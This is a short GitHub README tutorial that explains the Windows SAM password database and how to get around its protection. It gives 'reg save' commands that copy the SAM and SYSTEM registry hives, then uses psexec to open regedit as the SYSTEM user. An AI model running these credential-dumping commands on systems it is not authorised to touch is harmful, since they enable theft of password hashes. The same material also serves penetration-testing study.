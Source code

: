 # READ CONTENT OF SAM FILE USING PSEXEC

## What is SAM file?

Security Account Manager (SAM) is a database file in Windows 11/10/8/7/XP that stores user passwords in encrypted form. It is usually located in the following directory:
(C:\Windows\system32\config). Sam file cannot be opened, copied or read while windows is running for security reasons. However, to bypass this hinderance using PSEXEC, we will follow the steps below.

### Step 1;

- Run the command prompt as the system user
- Enter the commnands below

  ```
  reg save hklm\sam C:\samcopy
  ```
  ```
  reg save hklm\system C:\systemcopy
  ```
  ![UI Image](https://github.com/FacelessHacker/Privilege-Excalation-/blob/main/Screenshot%20(77).png)
  
  Note that C:\samcopy is the name of the path you want to save the copy of sam file & same goes for the system file
  
 - Check the location you entered, you will see your files there.
 
  ![UI Image](https://github.com/FacelessHacker/Privilege-Excalation-/blob/main/Screenshot%20(79).png)
  
### Step 2
- Navigate to  PSTOOLS on your command prompt
- Type the command below to access the registry editor as the system user

  ```
  psexec -i -d -s c:\windows\regedit.exe
  ```
  
  ![UI Image](https://github.com/FacelessHacker/Privilege-Excalation-/blob/main/Screenshot%20(80).png)
